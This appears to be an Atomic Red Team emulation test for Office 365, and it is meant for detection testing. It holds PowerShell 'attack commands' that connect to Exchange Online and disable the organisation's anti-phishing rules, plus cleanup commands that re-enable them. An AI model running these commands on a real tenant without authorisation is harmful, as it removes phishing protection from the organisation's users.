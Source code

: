 <br/>
<br/>

## Atomic Test #26 - office-365-Disable-AntiPhishRule

Using the Disable-AntiPhishRule cmdlet to disable antiphish rules in your office-365 organization.

**Supported Platforms:** Office-365

**auto_generated_guid:** b9bbae2c-2ba6-4cf3-b452-8e8f908696f3

#### Inputs:

| Name     | Description         | Type   | Default Value |
| -------- | ------------------- | ------ | ------------- |
| username | office-365 username | string |               |
| password | office-365 password | string |               |

#### Attack Commands: Run with `powershell`!

```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
$test = Get-AntiPhishRule
Disable-AntiPhishRule -Identity $test.Name -Confirm:$false
Get-AntiPhishRule
```

#### Cleanup Commands:

```powershell
if("#{password}" -ne "") {
$secure_pwd = ("#{password}" + "") | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
$test = Get-AntiPhishRule
Enable-AntiPhishRule -Identity $test.Name -Confirm:$false
Get-AntiPhishRule
}
```

#### Dependencies: Run with `powershell`!

##### Description: ExchangeOnlineManagement PowerShell module must be installed

##### Check Prereq Commands:

```powershell
$RequiredModule = Get-Module -Name ExchangeOnlineManagement -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Connect-ExchangeOnline']) {exit 1} else {exit 0}
```
